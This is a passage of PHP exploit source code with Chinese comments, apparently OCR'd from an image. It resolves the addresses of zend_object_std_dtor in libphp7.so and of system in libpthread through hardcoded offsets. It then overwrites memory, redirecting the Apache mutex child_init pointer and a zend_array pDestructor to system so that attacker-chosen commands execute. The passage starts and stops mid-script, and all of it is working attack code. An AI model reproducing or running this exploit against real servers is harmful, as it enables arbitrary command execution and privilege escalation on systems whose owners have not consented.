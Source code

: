     if($evil_string_len%8){//对齐
        $evil_string_len = ((int)($evil_string_len/8)+1)*8;
    }
    echo "evil string: ".$evil_string." len:".$evil_string_len."\n";

    $evil_string_start_addr = $evil_mutex_methods_end_addr;
    $evil_string_end_addr = $evil_string_start_addr + $evil_string_len;

    echo "evil string start addr:0x".dechex($evil_string_start_addr)."\n";
    echo "evil string end addr:0x".dechex($evil_string_end_addr)."\n";

    //查找zend_object_std_dtor的地址(我的在libphp7.so)
    $zend_object_std_dtor_addr = 0;
    $libphp_region = get_mem_region("libphp");
    if(!count($libphp_region)){
        die("can't find zend_object_std_dtor function addr\n");
    }

    for($i = 0;$i<count($libphp_region);$i++){
        if($libphp_region[$i][2] === "r-xp"){
            $zend_object_std_dtor_addr = $libphp_region[$i][0]+0x4F8300;//zend_object_std_dtor 在libphp7.so代码段中的偏移
            break;
        }
    }

    if($zend_object_std_dtor_addr === 0){
        die("can't find zend_object_std_dtor function addr\n");
    }
    echo "zend_object_std_dtor function addr:0x".dechex($zend_object_std_dtor_addr)."\n";

    //查找system函数的地址(在libpthread中)
    $system_addr = 0;
    $pthread_region = get_mem_region("pthread");
    if(!count($pthread_region)){
        die("can't find system function addr\n");
    }

    for($i = 0;$i<count($pthread_region);$i++){
        if($pthread_region[$i][2] === "r-xp"){
            $system_addr = $pthread_region[$i][0]+0xF4C0;//system 在libpthread-2.17.so代码段中的偏移
            break;
        }
    }

    if($system_addr === 0){
        die("can't find system function addr\n");
    }
    echo "system function addr:0x".dechex($system_addr)."\n";

    //将apr_proc_mutex_unix_lock_methods_t中的child_init改为zend_object_std_dtor
    $child_init = $evil_mutex_methods_start_addr+0x30;
    echo "child_init(0x".dechex($child_init).") => zend_object_std_dtor\n";
    write_mem_qword($evil_mutex_methods_start_addr+0x30,$zend_object_std_dtor_addr);

    //将混合结构zend_array的pDestructor指向system
    $pDestructor = $evil_zend_array_start_addr + 0x30;
    echo "pDestructor(0x".dechex($pDestructor).") => system\n";
    write_mem_qword($pDestructor,$system_addr);
